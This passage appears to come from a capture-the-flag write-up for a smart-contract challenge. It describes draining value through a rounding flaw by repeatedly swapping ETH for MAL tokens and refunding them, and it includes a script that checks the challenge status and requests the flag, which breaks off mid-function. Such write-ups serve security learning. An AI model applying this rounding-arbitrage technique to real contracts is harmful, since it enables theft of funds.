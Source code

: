 ```python

# Run the exploit
run_exploit()
```

## Executing the Exploit

I ran the exploit script multiple times, incrementally increasing the balance. Each run would:
1. Create a new temporary account
2. Transfer 0.3 ETH to it
3. Swap 0.29 ETH for MAL tokens (leaving some for gas)
4. Refund the tokens for ETH (gaining ~0.21 ETH profit from rounding issues)
5. Transfer all ETH back to the player account

After approximately 60 iterations, I successfully increased the player's ETH balance from ~3 ETH to over 20 ETH, solving the challenge.

## Retrieving the Flag

Once the player balance exceeded 20 ETH, I wrote a script to verify the solution and retrieve the flag from the challenge server:

```python
#!/usr/bin/env python3
import socket
import re
from web3 import Web3

# Challenge endpoints
FLAG_HOST = "83.136.253.25"
FLAG_PORT = 44426
RPC_URL = "http://83.136.253.25:32922"

# Player and setup addresses
PLAYER_ADDRESS = "0x127c4d11A66c604a6c0B9315Dd679889eCae002A"
SETUP_ADDRESS = "0x1b24AD2CAe6b72a5f22c7c69Fd2Fb4C865B6fb1f"

def check_blockchain_status():
    w3 = Web3(Web3.HTTPProvider(RPC_URL))
    
    # Check player balance
    player_balance = w3.eth.get_balance(PLAYER_ADDRESS)
    eth_balance = w3.from_wei(player_balance, 'ether')
    
    # Check if challenge is solved
    setup_abi = [{"inputs": [], "name": "isSolved", "outputs": [{"internalType": "bool", "name": "", "type": "bool"}], "stateMutability": "view", "type": "function"}]
    setup = w3.eth.contract(address=SETUP_ADDRESS, abi=setup_abi)
    is_solved = setup.functions.isSolved().call()
    
    return f"Player balance: {eth_balance} ETH\nChallenge solved: {is_solved}"

def get_flag():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((FLAG_HOST, FLAG_PORT))
    
    # Read initial menu
    data = s.recv(4096).decode('utf-8')
    
    # Select option 3 to get the flag
    s.sendall(b"3\n")
    
    # Read flag response
    flag_response = s.recv(4096).decode('utf-8')
```